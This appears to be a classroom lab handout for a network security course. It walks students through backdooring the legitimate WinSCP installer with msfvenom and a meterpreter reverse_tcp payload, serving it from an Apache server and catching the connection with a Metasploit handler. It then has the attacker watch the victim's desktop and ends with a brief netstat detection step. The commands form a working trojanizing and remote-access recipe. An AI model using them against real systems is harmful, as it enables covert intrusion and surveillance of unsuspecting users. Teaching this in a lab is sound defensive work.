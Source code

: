 # Backdoor Programs


## Objective

Download a legitimate program and add a backdoor to obtain remote access to a victim computer.


## Discussion

This type of attack is how threat actors gain access to remote computers of users behind restrictive firewalls.  Port 80, 8080, 443, etc. are usually allowed outbound to the internet.  In many organizations, any port is allowed outbound.  A threat actor can send an email attachment that contains a backdoor and work the way you will see it in this lab.

Also, when users download arbitrary programs from the internet, they could inadvertently inject malicious code into a computer that impacts the organization.  Similarly, if a threat actor can gain access to a reputable website and their downloads, they could also inject a backdoor into the legit program and when someone downloads and executes it, it could allow threat actors to gain access into the organization.  There have been many cases of this occurring. The most high-profile attack of this type was the Solarwinds attack.  Threat actors gained access to the development environment of the Solarwinds source code.  They injected a backdoor that was undetected for a significant amount of time.  Solarwinds products are used by private industry, state and federal governments.  The tool that was compromised is used to monitor network activity on a network such as computers which are up and running, the services running on the host, and other essential network functions.  You can imagine the problem with this type of attack.  The tool used to monitor networks was compromised and used in the healthcare, financial, military, federal, and state government levels.  The attack allowed unrestricted access to computers because the Solarwinds monitoring tool is allowed unrestricted access to virtually every computer and device on a network.

Solarwinds attack: [https://www.npr.org/2021/04/16/985439655/a-worst-nightmare-cyberattack-the-untold-story-of-the-solarwinds-hack](https://www.npr.org/2021/04/16/985439655/a-worst-nightmare-cyberattack-the-untold-story-of-the-solarwinds-hack)


## Preparation



1. Ensure Alice’s Windows 7 system is on her *LAN* segment.
2. Eve, put your Kali network adapter on the NETSEC-WAN segment.
3. Alice and Eve, make a note of Eve’s IP address.
4. Eve, download the original version of WinSCP to your Kali workstation: [https://tinyurl.com/2nvuxe7m](https://tinyurl.com/2nvuxe7m)  (**PAY ATTENTION TO THE FOLDER WHERE IT IS DOWNLOADED**)
    1. NOTE: [WinSCP ](https://winscp.net/eng/index.php)is a legit program used to transfer files over a secure connection between computers.


## Start the Lab

Eve, open a terminal on Kali. The default location to download a file will be “Downloads” and this tutorial assumes that location.  Run the commands below (Replace X.X.X.X with the IP of your Kali workstation):

**cd ~/Downloads**

**ls**

Be sure you see the “WinSCP.exe” file before continuing.

**msfvenom  -x  WinSCP.exe  -p  windows/meterpreter/reverse_tcp  LHOST=X.X.X.X LPORT=8080  -f  exe  -o  WinSCP-3.8.5.exe**

The above command may take a few minutes to run and generate the payload.  The program **msfvenom **is a game changer in the world of hacking.  It makes it very easy to create backdoor programs. It used to take a lot of steps and programming skills to create a backdoor program. In this lab, we are backdooring a legit program, though **msfvenom **can create its own backdoor.

After the file has been created, copy the file to the web server root directory on your Kali workstation.

**sudo cp WinSCP-3.8.5.exe /var/www/html**

Then start the web server:

**sudo service apache2 start**

Then check to be sure the web server is running:

**sudo  service apache2 status**

Apache is a very popular web server.  A web server serves web pages and other interactive content.  Anytime you use your web browser to access a site, it is running on a web server.

**Common job interview question is what port does a web server run on and, by default, it is port 80.**


## Start Metasploit.

Eve, run the following commands to start the “Listener” (this is the same as the[ reverse shell lab ](https://docs.google.com/document/d/0B0smSYOArSbNZGFQUUtxa3BLWlE/edit?usp=sharing&ouid=117998309226657164937&resourcekey=0-ZN0HmGtCZ71EQSIW0TforA&rtpof=true&sd=true)where Eve controlled her own server and ran ncat and waited for Alice to connect to it from behind the firewall).  Replace X.X.X.X below with the IP address of your Kali workstation.

**use exploit/multi/handler **

**set PAYLOAD windows/meterpreter/reverse_tcp **

**set LHOST X.X.X.X**

**set LPORT 8080**

**exploit**

The above command will listen on port 8080 for connections and it will connect to Eve’s machine (your Kali workstation).  Review the reverse shell lab if necessary.  In the msfvenom command above, you took a legitimate program and wrapped a program around it that will push your Kali attacking machine a shell from the victim (your Windows 7 system).  It works just like the[ reverse shell lab](https://docs.google.com/document/d/0B0smSYOArSbNZGFQUUtxa3BLWlE/edit?usp=sharing&ouid=117998309226657164937&resourcekey=0-ZN0HmGtCZ71EQSIW0TforA&rtpof=true&sd=true) when eve uses ncat to start a listener and Alice connections from behind the firewall.


```
REFERENCE ONLY  This is not required for this lab.

If you are an attacker (or pen tester) and you have multiple targets, you can save the above commands to a file and run:

msconsole -q -r file1.rc
msconsole -q -r file2.rc
msconsole -q -r file3.rc

And wait for one of the victims to connect to the Metasploit session.
```



## Download the Backdoored program

Alice, open internet explorer and browse to Eve’s IP address:

**http://X.X.X.X/WinSCP-3.8.5.exe**

PAY ATTENTION TO WHERE IT DOWNLOADED.

When the file has downloaded, double-click on it and open it  You will see the WinSCP default screen.

Alice and Eve, look at Eve’s Metasploit session.  You will see that the WinSCP program connected to Eve’s listening service.  **Also, note that the WinSCP still works as normal.**


## Back to Eve’s Metasploit session

Now that you have access to the victim system, you are in a meterpreter shell. Meterpreter is a memory resident program so when the machine reboots, it will not have any traces on the victim’s computer.  Meterpreter has many functions that allow dumping passwords, listing running processes, enabling camera, sound, etc. Type the command:

**screenshare**

You may get a popup to create a password for a keyring, you can “Cancel” those windows.  The web browser on your Kali workstation will open and show the desktop of the victim machine.

Now have your partner open programs on their Windows 7 system and watch their activity from your Kali workstation.


## Detecting the attack

Alice, since you know Eve’s IP address, open a command prompt on your Windows 7 system.  Run the command: \
 \
**netstat -an**

See if you can detect the connection to Eve’s computer on port 8080.  The command netstat is used to list **net**work **stat**istics.  One feature is to list all open ports and connected IPs.


# Switch roles.
